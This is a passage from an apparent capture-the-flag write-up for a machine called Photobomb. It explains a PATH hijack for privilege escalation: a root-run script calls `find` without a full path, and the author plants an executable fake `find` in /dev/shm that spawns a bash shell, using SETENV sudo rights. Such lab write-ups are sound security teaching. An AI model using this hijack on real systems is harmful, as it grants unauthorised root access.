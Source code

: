             EOF
        fi
        esac
    fi
    if [ -x /usr/lib/command-not-found -o -x /usr/share/command-not-found/command-not-found ]; then
            function command_not_found_handle {
                    # check because c-n-f could've been removed in the meantime
                    if [ -x /usr/lib/command-not-found ]; then
                       /usr/lib/command-not-found -- "$1"
                       return $?
                    elif [ -x /usr/share/command-not-found/command-not-found ]; then
                       /usr/share/command-not-found/command-not-found -- "$1"
                       return $?
                    else
                       printf "%s: command not found\n" "$1" >&2
                       return 127
                    fi
            }
    fi



### Path Hijack

#### Easy Path

There's a very simple path hijack in the script. I'll notice that all
the binaries called are referenced with full path except for that last
`find`:



    # protect the priceless originals
    find source_images -type f -name '*.jpg' -exec chown root:root {} \;



That means that `bash` will search the directories specified in the
`$PATH` environment variable looking for a binary named `find`.
Typically, it'll find `find` in `/usr/bin/find`.

But that's where the `SETENV` becomes useful to me.

I'll create a script called `find` in a temp space like `/dev/shm` and
set it as executable:



    wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash'        
    #!/bin/bash

    bash
    wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash' > find
    wizard@photobomb:/dev/shm$ chmod +x find
